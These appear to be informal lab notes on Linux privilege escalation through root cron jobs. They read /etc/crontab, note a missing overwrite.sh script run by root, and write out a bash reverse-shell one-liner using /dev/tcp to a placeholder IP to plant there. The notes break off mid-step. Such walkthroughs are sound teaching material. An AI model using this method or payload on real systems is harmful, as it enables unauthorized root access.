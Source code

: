 Identification 

`cat /etc/crontab`
in here cronjobs tab 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md


![](/images/cronjobs.png)

here we can see 2 process are running as root 

1)  * * * * root overwrite.sh
2) * * * * * root /usr/local/bin/compress.sh

**PART 1**
 as  we can see they are running every minute , every second 

we can see the path of crontab that is /home/user 

if we see there is no overwrite.sh on home user so  we put a reverse shell there and wait for the execution 

"bash -i >& /dev/tcp/IP/1234 0>&1"



similarly we put a reverse shell





